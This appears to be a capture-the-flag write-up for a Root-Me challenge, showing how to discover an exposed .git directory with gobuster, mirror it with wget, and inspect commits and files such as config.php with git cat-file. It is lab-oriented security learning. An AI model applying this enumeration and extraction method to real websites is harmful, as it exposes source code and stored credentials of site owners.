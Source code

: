 # Insecure Code Management(git cat-file)

I can find this with gobuster dir --url () --wordlist () option http://challenge01.root-me.org/web-serveur/ch61/.git/

then wget -mk -nH http://challenge01.root-me.org/web-serveur/ch61/.git/ -m: mirror -k: convert links -nH: no Host directory

but above method misses many files and directories thus

wget -r http://challenge01.root-me.org/web-serveur/ch61/.git/

then

ls -lart

└─$ cd .git

┌──(none㉿none)-\[\~/…/challenge01.root-me.org/web-serveur/ch61/.git] └─$ ls branches COMMIT\_EDITMSG config description HEAD hooks index index.html info logs objects refs

┌──(none㉿none)-\[\~/…/challenge01.root-me.org/web-serveur/ch61/.git] └─$ cat HEAD\
ref: refs/heads/master

┌──(none㉿none)-\[\~/…/challenge01.root-me.org/web-serveur/ch61/.git] └─$ cat refs/heads/master c0b4661c888bd1ca0f12a3c080e4d2597382277b

└─$ git log

└─$ **git cat-file** -t c0b4661c888bd1ca0f12a3c080e4d2597382277b

\-t: type

└─$ git cat-file -p c0b4661c888bd1ca0f12a3c080e4d2597382277b tree 94650eae3cb2615762a29ec073c53198adffd3c2 parent 550880c40814a9d0c39ad3485f7620b1dbce0de8 author John [john@bs-corp.com](mailto:john@bs-corp.com) 1569607805 +0200 committer Arod [arod@bs-security.fr](mailto:arod@bs-security.fr) 1569607805 +0200

blue team want sha256!!!!!!!!!

\-p: pretty print

└─$ git cat-file -p 94650eae3cb2615762a29ec073c53198adffd3c2 100644 blob 663fe35facfd983a948d221c769438f230eb18ef config.php 040000 tree 108b6a4cc9c9e653f2b81bb442950eec3d6f9d0c css 040000 tree ab24417f55f5dc5dc5c57d91f4a733740fdc2cac image 100755 blob 2e620c143ab6557a8dacb6a0c284d28c718d6a38 index.php

**tree shows the files at that commit point**

└─$ git cat-file -p 2e620c143ab6557a8dacb6a0c284d28c718d6a38

└─$ git cat-file -p 663fe35facfd983a948d221c769438f230eb18ef

